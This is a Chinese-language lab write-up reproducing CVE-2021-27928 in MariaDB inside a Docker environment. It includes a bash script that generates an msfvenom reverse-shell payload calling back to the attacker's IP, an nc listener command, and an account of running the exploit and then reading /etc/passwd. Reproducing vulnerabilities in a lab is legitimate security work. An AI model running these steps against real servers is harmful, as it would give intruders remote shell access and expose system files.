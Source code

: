 # CVE-2021-27928漏洞复现



## 1.漏洞简介

MariaDB是Mariadb基金会的一套免费开源的数据库管理系统，也是一个采用Maria存储引擎的MySQL分支版本。 MariaDB 10.2.37 版本之前的 10.2 版本，10.3.28 版本之前的 10.3 版本，10.4.18 版本之前的 10.4 版本和 10.5.9 版本之前的 10.5 版本存在代码注入漏洞，不受信任的搜索路径会导致eval注入。



## 2.环境介绍

攻击机：KALI，自带nc, MSF环境

MariaDB版本：10.3.13

环境目录：

```
├── Dockerfile
├── payload.sh
└── poc
    ├── CVE-2021-27928.so
    └── poc.sh
```



## 3.复现过程

启动环境，运行 payload.sh, 会自动获取 eth0 的 IP 地址将 msf 生成的监听 payload 传入 docker 镜像。

```
#!/bin/bash

# 获取eth0网络接口的IP地址
ip=$(ip addr show eth0 | grep -oP '(?<=inet\s)\d+(\.\d+){3}')

if [ -z "$ip" ]; then
  echo "无法获取eth0的IP地址"
  exit 1
fi

# 使用msfvenom生成payload
msfvenom -p linux/x64/shell_reverse_tcp LHOST="$ip" LPORT=4444 -f elf-so -o poc/CVE-2021-27928.so
# 重置容器方便多次测试 
docker stop cve_2021_27928 \
&& docker rm cve_2021_27928 \
&& docker rmi cve_2021_27928
# 启动容器
docker build -t cve_2021_27928 .
docker run -d --name cve_2021_27928  -e MARIADB_ROOT_PASSWORD=root cve_2021_27928 

docker exec -it cve_2021_27928 bash -c "ip a && echo '提示：请开启nc监听后, 在poc目录执行 ./poc.sh'"
```

成功开启环境，并打印出 docker 镜像对应 IP.

![image-20230728072229645](img/image-20230728072229645.png)

先开启新终端，开启 nc 监听。

```sh
nc -lvnp  4444 
```

![image-20230728072737271](img/image-20230728072737271.png)

运行 poc.sh , 输入目标 IP.

![image-20230728072954495](img/image-20230728072954495.png)

输入完毕后，nc 已经收到了反弹 shell.

![image-20230728073044753](img/image-20230728073044753.png)

分别执行了cat etc/passwd , ls , whoami 均正常执行回显。

![image-20230728073202746](img/image-20230728073202746.png)